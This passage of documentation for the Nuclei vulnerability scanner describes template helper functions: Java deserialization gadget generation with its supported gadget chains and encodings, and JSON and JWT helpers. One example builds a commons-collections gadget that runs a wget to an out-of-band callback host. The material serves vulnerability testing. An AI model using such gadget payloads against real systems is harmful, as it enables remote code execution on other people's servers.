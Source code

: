 - `commons-collections3.1`
- `commons-collections4.0`
- `jdk7u21`
- `jdk8u20`
- `groovy1`

**Supported encodings:**

- `base64` (default)
- `gzip-base64`
- `gzip`
- `hex`
- `raw`

**Deserialization helper function format:**

```yaml
{{generate_java_gadget(payload, cmd, encoding}}
```

**Deserialization helper function example:**

```yaml
{{generate_java_gadget("commons-collections3.1", "wget http://{{interactsh-url}}", "base64")}}
```

#### JSON helper functions

Nuclei allows manipulate JSON strings in different ways, here is a list of its functions:

- `generate_jwt`, to generates a JSON Web Token (JWT) using the claims provided in a JSON string, the signature, and the specified algorithm.
- `json_minify`, to minifies a JSON string by removing unnecessary whitespace.
- `json_prettify`, to prettifies a JSON string by adding indentation.

**Examples**

**`generate_jwt`**

To generate a JSON Web Token (JWT), you have to supply the JSON that you want to sign, _at least_.

Here is a list of supported algorithms for generating JWTs with `generate_jwt` function _(case-insensitive)_:

- `HS256`
- `HS384`
- `HS512`
- `RS256`
- `RS384`
- `RS512`
- `PS256`
- `PS384`
- `PS512`
- `ES256`
- `ES384`
- `ES512`
- `EdDSA`
- `NONE`
